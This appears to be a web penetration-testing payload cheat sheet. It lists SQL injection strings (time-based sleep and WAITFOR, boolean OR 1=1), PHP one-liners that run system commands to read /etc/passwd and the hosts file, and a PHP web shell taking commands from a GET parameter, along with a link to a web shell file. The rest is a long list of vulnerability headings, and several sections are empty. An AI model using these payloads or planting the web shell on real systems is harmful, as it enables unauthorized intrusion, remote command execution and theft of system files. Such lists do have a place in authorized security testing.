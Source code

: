 ### Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```
### Error Based SQL Injection:

### Boolean Based Blind SQL Injection:
```
'2 OR 1=1
''2 OR 1=1
"2 OR 1=1
'2 AND 1=1
''2 AND 1=1
"2 AND 1=1
```
### Local File Inclusion (LFI):
```


```
### Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("cat /etc/passwd");?>
<?php echo phpinfo(); ?>
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
```
### Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
### Application is Vulnerable to Reverse Web shell (Shell Execution):
```

```
### File Upload Bypass:
```
```
### Session Hijacking:
```

```
### Session Fixation in The Application
### Application is Vulnerable to Forceful Browsing
### Insecure Direct Object Reference
### URL Redirection in the application
### Reflected Cross Site Scripting Attack
### HTML Injection
### Link Injection
### Iframe Injection
### Blind Cross Site Scripting Attack
### Admin/User Login Authentication Bypass Using Success Response
### Cross Site Request Forgery (CSRF)
### Restricted Functionality Access in the Application
### Parameter Manipulation
### Test CGI script exposes environment variables
### Account Takeover through forget password
### Improper File Content Validation in the Application
### No Session Termination After Password Change
### Password History Check is not Implemented
### Concurrent Logins with the Same Username in admin/user account
### Trace method Enabled
### Full path disclosure
### Improper Input Validation in the Application
### Client side validation bypass of email and phone number verification
### Application is Vulnerable to Clickjacking Attacks
### OpenSSL Version disclose in the application
### Last Login Time Not Implemented in the Application
